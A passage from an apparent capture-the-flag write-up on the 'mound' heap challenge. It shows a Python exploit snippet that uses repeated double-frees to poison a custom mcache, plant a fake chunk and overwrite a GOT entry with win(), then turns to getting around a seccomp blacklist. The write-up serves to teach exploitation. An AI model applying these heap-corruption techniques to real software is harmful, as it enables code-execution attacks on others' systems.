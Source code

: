 I struggled with this for a while. The only way to put more pointers onto the mcache is to do a double-free, but the ID verification list got in the way of that. It was about at this point that I gained a partial understanding of the strategy outlined in [Fake IDs](#fake-ids), and I started work on an odd, roundabout method of achieving much of the same<sup>4</sup>:

 ```python
 # The substance of the exploit: getting mcache->entries[-1] to point to a fake mchunk
 for midx,b in tqdm((i+midxs.entries,b) for i,b in enumerate(pack(mound_data.fakechunk)) if b):
     def pad(s: bytes): return s.rjust(0x17, b'a')
     strdup(pad(b''), 0xf) # Remember that maximally, user_sz = 8 (mod 0x10) for a given glibc heap chunk.
     strdup(pad(b''), 0xe) # A string has a trailing nul-byte, so maximally strlen(s) = 7 (mod 0x10)
     add(midx, 2, b'hi')
     while (pred := r64bit())>>56: add(midx, 2, b'hi')
     for _ in range(b):    # continually double-free to boost ->counts[]
         free(2)
         edit(0xf, pad(pack(r64())[:7]))
         free(0xe)
         edit(0xf, pad(pack(pred)[:7]))
         add(midxs.incrementer, 5, b'a'*0x10)
 # , free it + a chunk right in front of it, overflow into the real freed chunk's metadata to
 add(midxs.bugged, 2, b'') # Get the fake chunk allocated,
 free(2) # free it + the chunk overlapping with the fake chunk
 free(1) # prepare to overwrite freed mchunk metadata such that ->next points to a fake chunk on the mound_arena
 add(midxs.fakechunk, 2, b'overwrite!'.ljust(0x10,b'a') + fake_mcache_entry(sz=999, fd=mound_arena.mcache-0x10))
 add(midxs.overflower, 1, 'hi') # put the fake mound_arena chunk on the mcache
 add(midxs.overflower, 1, fit(mound_data.mcache, context.binary.got['setvbuf'])) # replace mound_arena->top with the GOT
 add(midxs.got_overwriter, 2, pack(context.binary.sym.win)) # overwrite a good function with win() (I use scanf() here)
 ```

And that's how I used an mcache dup without ever noticing _I had an mcache dup_. An exploit method so abstruse, it remains 30x slower than the intended solution after optimisation<sup>5</sup>.

With that mess covered, I can route your attention back to `win()`. 

## Using `win()`

The seccomp filter for this challenge is mildly interesting. Normally, seccomp'd binaries have a _whitelist_ for permitted syscalls, but in this situation, there's only a _blacklist_ against a few. The blacklisted items give pause for thought: both `execve` and `open` are banned, and normally you'd use the former to pop a shell, and the latter for an [open-read-write](https://lkmidas.github.io/posts/20210103-heap-seccomp-rop/) chain.

But before I get ahead of myself, let's talk about how to get to arbitrary syscalls first.

### Moving to rwx

There aren't a lot of gadgets in the main binary, so it might be better to leak libc first.
